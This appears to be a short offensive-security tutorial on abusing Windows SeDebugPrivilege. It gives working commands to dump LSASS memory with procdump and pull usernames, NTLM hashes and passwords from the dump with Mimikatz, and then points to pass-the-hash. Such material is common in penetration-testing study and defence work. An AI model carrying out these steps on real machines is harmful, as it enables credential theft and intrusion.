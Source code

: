# What is SeDebugPrivilege?

`SeDebugPrivilege` is a special Windows permission that allows a user to inspect, control, or manipulate any process on the system, even those running as SYSTEM, the most powerful user on Windows.

- If you're not an administrator but have SeDebugPrivilege, you can:
- Dump LSASS memory (contains usernames, NTLM hashes, even cleartext passwords).
- Extract credentials using tools like Mimikatz.
- Elevate to SYSTEM using PowerShell tricks.


```bash
whoami /priv

# Output Example:
SeDebugPrivilege    Debug programs    Disabled
```
 "Disabled" is okay — if it shows up, we can still use it!

### 1. Dump LSASS Memory
```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
 This creates a memory dump file: `lsass.dmp`.
###  2. Extract Credentials Using Mimikatz
Run Mimikatz:
```bash
mimikatz.exe
```
Inside Mimikatz, enter:
```bash
log                                # Saves all output to a log file
sekurlsa::minidump lsass.dmp       # Load LSASS memory
sekurlsa::logonpasswords           # Extract stored credentials
```
Once you get the hash you can  use it for Pass The Hash attack

